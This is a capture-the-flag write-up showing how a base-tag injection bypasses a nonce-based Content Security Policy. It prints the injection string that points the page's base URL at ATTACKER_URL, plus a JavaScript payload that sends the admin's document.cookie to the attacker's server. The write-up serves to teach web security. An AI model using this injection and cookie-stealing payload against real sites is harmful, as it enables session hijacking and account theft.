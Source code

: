 ```yaml
---
description: Content Security Policy bypass using base tag
---
```


# XwaSS ftw?

> Just another typical web challenge that will be solved anyway :/\
> Link: http://128.199.3.34:1236\
>
>
> **Author:** Kahla

In this challenge, we have HTML injection through the `src=` parameter, but the CSP does not allow the loading of arbitrary scripts.

```markup
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-6kzZgPLe1fqRq8';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```

Thankfully, the following script is included in the response, which is permitted by the `nonce`.

```markup
<script nonce=6kzZgPLe1fqRq8  src="assets/js/bootstrap.js">
```

We could therefore use the `<base>` tag to set the base URL of the document to our attacker-controlled site.

```html
?src=/img/saturn.jpg'><base href="http://ATTACKER_URL">
```

This will load the script `http://ATTACKER_URL/assets/js/bootstrap.js`, which we can host on our server:

```javascript
let img = document.createElement('img');
img.src = "/?" + btoa(document.cookie)

document.body.appendChild(img);
```

The above payload will cause the browser to fetch `/?${document.cookie}`, which will be logged on our server, allowing us to get the admin's cookie.
